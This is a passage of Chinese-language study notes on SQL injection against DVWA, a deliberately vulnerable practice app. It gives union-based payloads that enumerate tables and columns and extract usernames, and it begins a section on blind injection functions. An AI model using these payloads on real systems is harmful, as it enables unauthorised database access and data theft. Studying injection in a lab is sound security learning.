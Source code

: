 <img src="C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210321203902612.png" alt="image-20210321203902612" style="zoom:80%;" />![image-20210322103244477](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322103244477.png)

#### 查询表名

```mysql
select table_name from information_schema.tables where table_schema='dvwa';
# payload
1' union select 1,table_name from information_schema.tables where table_schema='dvwa'#
```

<img src="C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322155646437.png" alt="image-20210322155646437" />

<img src="C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322155810342.png" alt="image-20210322155810342" style="zoom: 67%;" />

#### 查询字段名

通过database()查到库名，再从默认库中查到表名，最后查字段名

```mysql
select column_name from information_schema.columns where table_schema='dvwa' and table_name='users';
# payload
1' union select 1,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
```

<img src="C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322160802772.png" alt="image-20210322160802772" style="zoom:50%;" />

<img src="C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322161050538.png" alt="image-20210322161050538" style="zoom: 50%;" />

#### 查询数据

```mysql
select user from dvwa.users;
# payload
1' union select user from dvwa.users#
```

<img src="C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20210322162705736.png" alt="image-20210322162705736" style="zoom:70%;" />

### 盲注

指sql语句执行后不会回显

**常用函数**

* substr()

  * substr(string, pos, len) : 从pos开始取长度为len的子串
  * substr(string, pos) : 从pos开始取到string的最后

* substring()

  同substr()

* left()&right()
